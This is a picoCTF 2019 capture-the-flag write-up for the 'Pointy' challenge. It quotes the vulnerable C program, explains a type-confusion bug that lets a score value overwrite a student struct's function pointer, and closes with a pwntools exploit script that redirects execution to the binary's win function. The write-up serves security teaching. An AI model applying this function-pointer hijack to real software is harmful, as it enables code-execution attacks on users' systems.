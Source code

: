 # Pointy (picoCTF2019)



#### What does this program do?

#### It will make a loop which will:

#### 1. Create a new student struct and ask for student name

#### 2. Create a new professor struct and ask for professer name

#### 3. Search for the student who will give a professor some point

#### 4. Search for the professor who will be given some point by the student chosen at step 3

#### 5. Give the professor point

#### We could clearly see there are some bugs in vuln.c right in the first place

```C
int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;	//1: student struct was saved in ADDRESSES array
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;  //2: professer struct was also saved in ADDRESSES array
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor; //3: student->scoreProfessor is a function pointer point to giveScoreToProfessor
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor); //4: struct professor's change depends on retrieveProfessor function
        puts(professor->name);
        unsigned int value;
            printf("Input the score: \n");
            scanf("%u", &value);
        student->scoreProfessor(professor, value); //5: point will be given through function scoreProfessor
    }
    return 0;
}
```
#### We can now sense some buggy smell throught that 5 place

```C
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```
#### The offset of Student->scoreProfessor is the same as Professor->lastScore

```C
void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}
```
#### The struct student and professor are on the same array, but this `retrieveProfessor` doesnt check for name if the professor has the same name as the student, this is the critical bug!
#### So now if we input `A` as the student name, `A` as the professor name, `A` for the student that will give score (bypass the program check).
#### And finally `A` as the professor name, the `retrieveProfessor` will now try to search professor named `A` but the student named `A` is at the first index of the array, so the program will give the `professor`  struct variable the `student` struct, and then because the offset of `Student->scoreProfessor` is the same as `Professor->lastScore`, the program will change the function pointer `Student->scoreProfessor` to the number of point, this was performed in `giveScoreToProfessor` function of struct `student`.

```C
void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score; // professor->lastScore is actually student->scoreProfessor because the program chose the student struct as professor struct and professor->lastScore is the same offset as student->scoreProfessor
    printf("Score Given: %d \n", score);

}
```
And i got this final exploit:
```python
from pwn import *

io = process('./vuln')
elf = ELF('./vuln')

def givescore(student, teacher, StudentGiveScore, teacherBeingGivenScore, score):
        print(io.recv())
        io.sendline(student)
        print(io.recv())
        io.sendline(teacher)
        print(io.recv())
        io.sendline(StudentGiveScore)
        print(io.recv())
        io.sendline(teacherBeingGivenScore)
        print(io.recv())
        io.sendline(str(score))

givescore(b'A', b'A', b'A', b'A', elf.sym['win'])
givescore(b'lmao', b'bruh', b'A', b'bruh', 1)
print(io.recv())
```
